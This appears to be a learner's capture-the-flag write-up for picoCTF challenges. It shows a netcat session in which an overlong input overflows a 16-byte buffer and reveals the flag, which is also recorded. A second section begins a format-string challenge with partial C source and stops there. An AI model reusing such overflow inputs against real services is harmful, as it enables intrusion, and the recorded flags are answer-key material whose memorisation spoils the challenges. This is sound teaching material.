 From the name of the challenge, we can identify that we have to do buffer overflow. In the source code of the program, which was in C, one of the array had a size of 16, so we had to enter a input which had greater
than 16 characters, which will cause an overflow, and give us the flag. 

```
saltycoder@LAPTOP-LP81GQQE:~$ nc saturn.picoctf.net 57136
Input: 12
The program will exit now
^C
saltycoder@LAPTOP-LP81GQQE:~$ nc saturn.picoctf.net 57136
Input: ssssssssssssssssssssssss
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:

- I learnt about buffer overflow, which is when we overflow the stack by overflowing one of the variable and exploit the program to our advantage. 

## Notes:

I first tried running the commands directly on vs code terminal, but realised it is a Linux command, so we have to run it on a Linix command line. 

## Resources:

https://ctf101.org/binary-exploitation/buffer-overflow/

https://youtube.com/watch?v=CRTR5ljBjPM

***

# 2. Format string 0: 

Can you use your knowledge of format strings to make the customers happy? Connect with the challenge instance here:
```
nc mimas.picoctf.net 56375
```
C code that was given: 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```